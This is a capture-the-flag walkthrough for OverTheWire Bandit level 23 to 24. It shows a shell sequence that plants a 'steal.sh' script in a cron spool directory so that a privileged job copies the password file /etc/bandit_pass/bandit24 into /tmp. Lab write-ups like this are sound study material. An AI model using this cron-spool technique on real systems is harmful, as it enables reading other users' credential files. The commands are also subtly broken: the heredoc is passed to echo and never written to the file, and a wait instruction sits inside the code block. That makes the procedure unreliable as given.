

## Access Information

SSH Portal:
ssh bandit23@bandit.labs.overthewire.org -p 2220

Website:
https://overthewire.org/wargames/bandit/

Password for each level is stored inside the current level and used to log into the next.

---

## Level 23 → 24

### Steps to solve
```bash
cd $(mktemp -d)
echo <<"EOF" > steal.sh

#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/your_temp_dir/password
EOF

touch password
chmod 777 steal.sh
chmod +rwx steal.sh
cp steal.sh /var/spool/bandit24/foo/

after 60 seconds

cat password
```
---


### explanation

- `cd $(mktemp -d)` — create and change into a brand-new temporary directory so you do not clutter your working tree and to keep artifacts isolated.
- `steal.sh` creates a small bash script that reads the privileged file and writes it to a path under `/tmp` you control:

    - `cat /etc/bandit_pass/bandit24 > /tmp/your_temp_dir/password` — when `steal.sh` runs with the privileges of the cron/spool runner it can read `/etc/bandit_pass/bandit24` and copy it to the predictable `/tmp` location.

- `touch password` — creates a local file named `password` in your temp dir
- `chmod 777 steal.sh` / `chmod +rwx steal.sh` / `chmod +x` — make the script executable so the spool/cron process can run it.
- `cp steal.sh /var/spool/bandit24/foo/` — place the script into the spool/drop directory that the privileged runner checks. The system's scheduled task or spool daemon will execute scripts from this location with higher privileges and therefore the script can read the protected password file.
- Wait (the walkthrough says "after 60 seconds") — allow the scheduled runner or daemon time to pick up and run the script.
- `cat password` — read the file your script wrote into `/tmp`
---